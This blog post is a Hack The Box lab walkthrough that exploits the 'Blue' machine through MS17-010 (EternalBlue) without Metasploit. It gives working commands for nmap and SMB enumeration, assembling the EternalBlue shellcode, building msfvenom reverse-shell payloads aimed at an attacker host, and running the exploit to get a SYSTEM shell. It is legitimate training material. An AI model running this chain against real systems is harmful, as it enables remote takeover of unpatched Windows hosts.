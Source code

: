 ```yaml
---
title: "HTB - Blue without MetaSploit"
date: 2021-01-30T16:37:44+01:00
categories: ["hacking","write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/Blue.png"
aliases:
    - /htb-blue-without-metasploit/
    - /htb-blue/
---
```

## Box

[HTB - Blue](https://app.hackthebox.eu/machines/51)

## Intro
A good ol' vuln to get starting!

This will be my first real tutorial, so I'll try to explain the basics of what I am doing. Please bear in mind that I am very new to hacking, probably like you are. I am merely sharing my knowledge and by doing so I am making sure I understood what I did. Please correct me if you find anything wrong, or ask question if you need to! I'll be happy to engage a discussion.

NB : The following notes use $target_ip = IP of the target machine. This is more convenient when machine changes its IP.

A note about “sudo”. I am a firm believer in the “least privileges” methodology, like never use your admin account on AD domain for day to day use, and never use sudo if you don't need to. For example, search a package with “apt search X” and install it wish "sudo apt install X". However, in case of Kali and nmap, I noticed that in quite often requires root depending of the flag you use. Since, I am no expert (yet), I will l run nmap (and many other Kali tools) with sudo! I do not log in as root, but as a regular user I created but I almost always use “sudo”.

I will process simply by following the 5 stages of Ethical Hacking.

##  Recon

Doing HTB boxes, there will be no proper reconnaissance phase; since Googling for the box will obviously leave to solution which we do not want... Let's just say we can use the name to have a guess. Here, a Windows machine called Blue probably means we'll have to deal with MS17-010. So I'll pay close attention to anything related to SMB.

##  Enum

Let's fire a quick nmap scan ;

```text
sudo nmap -T4 -p- $target_ip
```

![](/images/2021/01/2021-01-27_14-21.png)

This quick nmap command will scan for all TCP ports, then, once done we will gather more in depth results by adding -A flag on specified ports (the one that responded from the previous step).

```text
sudo nmap -T4 -A -p $target_ip
```

![](/images/2021/01/2021-01-27_14-22.png)

NB : here, I just ignored some high ports 49xxx/tcp because this is not a real life test and I know that what I am looking for is related to SMB (445/tcp).

In parallel, I like to launch a Nessus basic scan on ALL ports (thanks @tcm for the tips) :

![](/images/2021/01/2021-01-27_13-21.png)

Like we guessed, it seems we will have to play with MS17-010 vuln, let's check that with nmap dedicated script :

```text
sudo nmap --script smb-vuln-ms17-010 $target_ip
```

![](/images/2021/01/2021-01-27_14-35.png)

It is becoming more and clear that this machine is vulnerable to ms17-10.

Since saw some SMB running; let's enumerate it :

NB : note the quadruple "", this is because it normally has only 2 but need escaping each time, hence the 4.

```text
smbclient -L $target_ip
```



![](/images/2021/01/2021-01-27_14-42.png)

Since we found a few share let's try to connect to each one of them anonymously, for example with the share called "Share":

```text
smbclient $target_ipShare
```

![](/images/2021/01/2021-01-27_14-46.png)

Keep notes of what shares you have access to. You may differentiate where you have "listing" access and where you don't.

Now let's try to gain exploit this machine.

##  Gaining Access (exploitation)

My goal is to exploit without MetaSploit, if you don't know why, check this blog post.

Searching on the internet, I came around this GitHub that seems to be able to do the job: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010).

According to the repo we need to install impacket and mysmb, I'll let you do that, then we can use checker.py to see if we find any named pipe (since it is a safe way to exploit this) :

cd into the clone repo then run :

```text
python2 checker.py $target_ip
```

![](/images/2021/01/2021-01-27_14-54.png)

Unfortunately, we have no named pipes available... However, according to the repo :

> **Eternalblue** requires only access to IPC$ to exploit a target while other exploits require access to named pipe too. So the exploit always works against Windows &lt; 8 in all configuration (if tcp port 445 is accessible). However, Eternalblue has a chance to crash a target higher than other exploits.
>
> **Eternalchampion** requires access to named pipe. The exploit has no chance to crash a target.
>
> **Eternalromance** requires access to named pipe. The exploit can target Windows &lt; 8 because the bug for info leak is fixed in Windows 8. The exploit should have a chance to crash a target lower than Eternalblue. I never test a reliable of the exploit.
>
> **Eternalsynergy** requires access to named pipe. I believe this exploit is modified from Eternalromance to target Windows 8 and later. Eternalsynergy uses another bug for info leak and does some trick to find executable memory (I do not know how it works because I read only output log and pcap file).

Remember or recon phase and that Blue machine name? Looks like we are facing EternalBlue : we have seen that we have access to $IPC Share, Windows &lt; 8 (Windows 7 here), and port 445/tcp is open.

In order to exploit this we need to use the following (still according to the repo) :

```text
eternalblue_exploit7.py <ip> <shellcode_file> [numGroomConn]
```

The repo tells us that there is 2 shellcode, one for each arch.

However, we are not really sure which arch is our target. So we will assemble both shellcode :

cd into the shellcode dir and :

```text
nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
```

Once this is done, we create our payloads like so :

```text
msfvenom -p windows/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -f raw -o sc_x86_msf.bin EXITFUNC=thread msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=4444 -a x64 -f raw -o sc_x64_msf.bin EXITFUNC=thread
```

Finally we "join" the two payloads together (with the provided python script from the repo) so that we can check both arch at the same time and hopefully get a shell :

```text
cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin python2 eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
```

[Many thanks to this website for the info on how to assemble the shellcode](https://redteamzone.com/EternalBlue/).

Now start a listener to receive the reverse shell on port 4444 (or the one you used with he msfvenom command):

```text
nc -lvp 4444
```

Let it open and finally, we run our command with the generated sc_all.bin as payload :

```text
python2 eternalblue_exploit7.py $target_ip ./shellcode/sc_all.bin
```

![](/images/2021/01/2021-01-27_15-45_1.png)

Bingo, we have a shell as `SYSTEM`!

![](/images/2021/01/2021-01-27_15-48.png)

Here, in a normal pentest situation, we would make sure to have a way to maintain access. But this is HackTheBox, we will simply harvest our flags. :)

##  Maintaining Access

Not used here. :)

##  Covering Tracks

Not used here. :)
